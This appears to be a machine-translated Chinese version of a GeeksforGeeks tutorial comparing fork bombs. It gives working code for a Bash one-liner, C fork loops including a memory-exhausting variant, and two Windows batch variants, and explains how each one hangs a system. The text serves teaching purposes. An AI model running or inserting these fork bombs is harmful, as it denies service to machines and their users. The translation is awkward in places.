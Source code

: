 # C 对 BASH 叉弹

> 原文:[https://www . geesforgeks . org/c-vs-bash-fork-bomb-difference-modifications/](https://www.geeksforgeeks.org/c-vs-bash-fork-bomb-difference-modifications/)

先决条件:

*   [分叉系统调用](https://www.geeksforgeeks.org/fork-system-call/)
*   [叉弹](https://www.geeksforgeeks.org/fork-bomb/)

**重击叉弹:**

```cpp
:(){:&:&};:

```

**在 Unix 中工作:**
在类似 Unix 的操作系统中，分叉炸弹一般都是用分叉系统调用编写的。由于分叉进程也是第一个程序的副本，一旦它们从帧指针处的下一个地址恢复执行，它们也会试图创建自己的副本。这具有导致过程指数增长的效果。

**叉弹的 C 程序:**

```cpp
// Modified fork bomb
#include <unistd.h>
#include <malloc.h>

int main()
{
    //Infinite loop
    while (1)
    {
        // Generating child fork processes
        fork();
    }
}
```

**在 Windows 中工作:**
微软 Windows 操作系统没有与 Unix 分叉系统调用等效的功能。因此，这种操作系统上的分叉炸弹必须创建一个新的进程，而不是从现有的进程分叉。

【Bash 和 C 叉()炸弹哪个威力更大

很明显，BASH 分叉炸弹比它的 C 程序版本强大得多。原因是在 BASH 中，我们创建的进程与父进程是分离的。如果父进程(我们最初启动的那个)被终止，其余的进程将继续运行。但是在 C 实现中，如果父进程被杀死，列出的子进程就会死去，所以这足以让我们开始的初始进程倒下，让整个不断分叉的进程倒下。脚本直接与系统通信。

C 中的叉弹程序可以修改。我们可以在创建分叉进程时在程序中分配内存。
下面是改装 C 叉弹的实现:

```cpp
// Modified fork bomb
#include <unistd.h>
#include <malloc.h>

int main()
{
    // Infinite loop
    while (1)
    {
        // Generating child fork processes
        fork();

        // Allocating memory in RAM
        int *p = (int *) malloc (sizeof (int) * 100000);
    }
}
```

**窗口不同叉弹:**

*   Terminal script :

    ```cpp
    %0|%0
    ```

    将其保存为 bat 扩展(示例 fork.bat)。
    每一个符号的过程都与 BASH 脚本有些相似。给定的行将再次调用同一个文件，并将输出传送到同一个批处理文件的另一个实例。使系统崩溃还不够致命。但它肯定会使中央处理器反应迟钝，足以让重启成为唯一的选择。

*   Batch file :

    ```cpp
    :runthis
    start %0
    goto runthis

    ```

    将其保存为 bat 扩展(示例 fork.bat)。
    工作:

    ```cpp
    :runthis is a label which determines a point 
    where the execution can be sent using the goto command.

    start %0 asks the command prompt to launch 
    another instance of the same batch file into another process.

    goto runthis command tells the execution to 
    go to the runthis label which will then call the start %0 command.

    ```

    它将进入一个自递归调用，并最终创建许多进程。
    系统会因为资源过度使用而挂起！许多命令提示符窗口将会打开，整个系统将在几秒钟内停止运行。

本文由 **[罗希特·塔普利亚尔](https://www.linkedin.com/in/rohit-thapliyal-515b5913a/)** 供稿。如果你喜欢 GeeksforGeeks 并想投稿，你也可以使用[contribute.geeksforgeeks.org](http://www.contribute.geeksforgeeks.org)写一篇文章或者把你的文章邮寄到 contribute@geeksforgeeks.org。看到你的文章出现在极客博客主页上，帮助其他极客。

如果你发现任何不正确的地方，或者你想分享更多关于上面讨论的话题的信息，请写评论。